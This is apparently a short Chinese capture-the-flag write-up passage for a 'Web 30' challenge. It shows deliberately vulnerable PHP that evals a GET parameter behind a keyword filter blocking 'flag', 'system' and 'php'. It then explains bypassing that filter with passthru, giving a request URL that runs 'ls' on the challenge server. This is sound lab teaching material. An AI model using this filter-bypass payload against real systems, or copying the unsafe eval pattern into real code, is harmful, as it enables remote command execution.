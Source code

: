 ***

## <mark style="color:blue;background-color:orange;">（2）Web 30</mark>

<figure><img src="../.gitbook/assets/image 5.png" alt=""><figcaption></figcaption></figure>

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这段代码和上一题代码的区别就是，过滤了`flag，system`，和`php`。

既然我们system用不了了，我们看可以用其他的php执行函数来代替吗。

可以试试passthru

```php
http://2f1af390-2e2d-4d53-b104-a31ed9917f2b.challenge.ctf.show/?c=passthru("ls");
```
